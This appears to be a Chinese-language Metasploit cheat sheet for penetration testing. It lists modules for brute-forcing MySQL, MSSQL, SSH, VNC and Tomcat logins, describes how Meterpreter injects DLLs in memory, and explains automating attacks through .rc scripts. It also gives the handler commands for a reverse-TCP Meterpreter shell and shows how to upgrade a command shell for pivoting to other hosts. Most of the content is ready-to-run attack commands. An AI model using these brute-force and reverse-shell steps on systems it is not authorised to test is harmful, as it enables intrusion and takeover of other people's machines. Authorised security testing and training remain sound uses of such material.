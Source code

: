 **爆破**
```bash
use auxiliary/scanner/mysql/mysql_login         # 爆破 mysql
use auxiliary/scanner/mssql/mssql_login         # 爆破 mssql
use auxiliary/scanner/ssh/ssh_login             # 爆破 SSH
use auxiliary/scanner/snmp/snmp_enum            # 枚举 snmp
use auxiliary/scanner/vnc/vnc_login             # 爆破 VNC
use auxiliary/scanner/http/tomcat_mgr_login     # 爆破 tomcat
```

---

# meterpreter

Meterpreter 属于 stage payload，在 Metasploit Framework 中，Meterpreter 是一种后渗透工具，它属于一种在运行过程中可通过网络进行功能扩展的动态可扩展型 Payload。这种工具是基于 “内存 DLL 注入” 理念实现的，它能够通过创建一个新进程并调用注入的 DLL 来让目标系统运行注入的 DLL 文件。

首先目标先要执行初始的溢出漏洞会话连接，可能是 bind 正向连接，或者反弹 reverse 连接。反射连接的时候加载 dll 链接文件，同时后台悄悄处理 dll 文件。其次 Meterpreter 核心代码初始化, 通过 socket 套接字建立一个 TLS 加密隧道并发送 GET 请求给 Metasploit 服务端。Metasploit 服务端收到这个 GET 请求后就配置相应客户端。最后，Meterpreter 加载扩展，所有的扩展被加载都通过 TLS 进行数据传输。

## Tips

可以将攻击代码写入 configure.rc（只要是以 .rc 结尾的文件）配置文件中，然后使用命令
```bash
msfconsole -r configure.rc
```
进行自动攻击

---

## 获取会话

**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost [lhost]
set lport [lport]
exploit -j  # 后台执行
```

**cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要.`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

**注意事项**

如果 meterpreter session 创建成功了,但很快就断连,此时应该修改使用的 payload,优先改成 generic/shell_reverse_tcp 等

如果还不成功,切换回连端口或者改成 bind shell 试试

---
